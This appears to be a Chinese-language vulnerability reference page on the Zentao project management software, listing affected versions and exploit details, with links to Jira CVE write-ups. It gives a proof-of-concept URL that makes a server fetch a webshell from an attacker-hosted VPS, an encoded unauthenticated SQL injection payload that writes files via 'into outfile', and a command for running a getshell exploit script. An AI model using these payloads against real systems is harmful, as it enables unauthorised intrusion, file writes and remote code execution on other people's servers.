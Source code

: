 ```yaml
---
title: Zentao(禅道)
---
```


## 应用简介

[禅道](https://www.zentao.net/) ，项目管理软件

## [CNVD-C-2020-121325]-文件上传

**漏洞概述**
```http
#影响范围
Zentao <= 12.4.2 开源版
```

由于开发者对link参数过滤不严，导致攻击者对下载链接可控，导致可远程下载服务器恶意脚本文件，造成任意代码执行，获取webshell

**漏洞利用**

POC

```bash
http://127.0.0.1/zentao/client-download-1-<base64 encode webshell download link>-1.html

http://127.0.0.1/zentao/data/client/1/<download link filename>

#这里需要自己开启一个VPS提供下载服务，然后把链接的base64位编码和自己的路径替换一下。
http://127.0.0.1/zentaopms/www/client-download-1-<base64 encode webshell download link>-1.html
```

上传位置`zentaopms\www\data\client\1`

## 免登录SQL注入

```http
#影响版本
Zentao 9.1.2
```

**漏洞利用**

```http
http://zentao.me/block-main.html?mode=getblockdata&blockid=case¶m=eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtzZWxlY3QgMTIzIGludG8gb3V0ZmlsZSAnZDoveHh4LnR4dCctLSAtIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ
```

解码之后如下，因为可以PDO可以多语句，那么就可以update或者写文件操作

```http
{"orderBy":"order limit 1;select 123 into outfile 'd:/xxx.txt'-- -","num":"1,1","type":"openedbyme"}
```

## 前台Getshell

```http
#影响版本
8.2 - 9.2.1
```

**漏洞利用**

EXP：https://github.com/jas502n/zentao-getshell

```bash
python exp.py http://127.0.0.1:81/ jas502n.php`
```

## 另一个项目管理软件Jira

🔸 [Jira服务工作台路径遍历导致的敏感信息泄露漏洞（CVE-2019-14994）](https://cloud.tencent.com/developer/article/1529135)
🔸 [Jira未授权SSRF漏洞(CVE-2019-8451)](https://www.cnblogs.com/backlion/p/11608371.html)
🔸 [Atlassian JIRA服务器模板注入漏洞（CVE-2019-11581）](https://www.cnblogs.com/backlion/p/11608439.html)
🔸 [CVE-2019-8449 JIRA 信息泄漏漏洞](https://xz.aliyun.com/t/7219)
